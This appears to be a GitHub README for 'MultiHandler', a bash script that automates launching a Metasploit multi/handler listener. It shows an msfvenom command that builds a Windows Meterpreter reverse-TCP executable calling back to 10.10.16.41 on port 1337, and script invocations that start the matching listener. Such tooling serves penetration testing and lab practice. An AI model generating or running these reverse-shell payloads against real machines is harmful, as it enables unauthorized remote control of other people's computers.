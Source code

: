 # MultiHandler
Too lazy to start meterpreter, search for the multi handler, use it, set the payload, set the lhost, set the lport and then run it? .. takes a while, lots of things to type. No More!   

Copy and paste your payload, IP and Port from the msfvenom command and execute it.

## Example

Let's say you ran this msfvenom command to generate an executable binary for a reverse shell:  

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.41 LPORT=1337 -f exe -o lazy.exe
```
![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/cc36f386-7eac-42d7-b735-8b358e9f19cd)

You would then normally need to:
1. start Meterpreter
2. search for the multi handler
3. use it
4. set the payload
5. set the lhost
6. set the lport
7. execute it.

Those are a lot of steps and typing or copying and pasting. How about you run this script with the above highlighted part of the msfvenom command copied and pasted?

```bash
./MultiHandler.sh windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.41 LPORT=1337
```
![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/2902c146-4fb2-4e62-893a-a5f7e70e8829)

You can also simply type (if you are into that sort of thing) the payload, IP and Port manually and it will work just the same.

```bash
./MultiHandler.sh windows/x64/meterpreter/reverse_tcp 10.10.16.41 1337
```

![image](https://github.com/LazyTitan33/MultiHandler/assets/80063008/38f89ab5-708b-4ed0-8565-01697b509238)

This quick bash script generates and runs a [Meterpreter Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) that you can keep using or again, very simply generate another one for a different port if you want.

